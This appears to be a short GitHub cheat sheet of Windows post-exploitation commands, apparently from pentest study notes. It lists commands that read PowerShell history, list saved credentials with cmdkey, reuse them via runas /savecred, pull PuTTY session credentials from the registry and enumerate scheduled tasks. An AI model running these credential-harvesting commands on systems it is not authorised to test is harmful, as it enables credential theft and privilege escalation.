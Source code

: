 Powershell History
Tool: cmd ( admin )
> %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

#Saved Windows Credentials
Tool: cmd ( admin )
> cmdkey /list
![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

#Try the user login
Tool: cmd ( admin )
> runas /savecred /user:admin cmd.exe
![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)
![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)


#Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)
![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)




Scheduled Tasks
Tool: cmd ( admin )
> schtasks

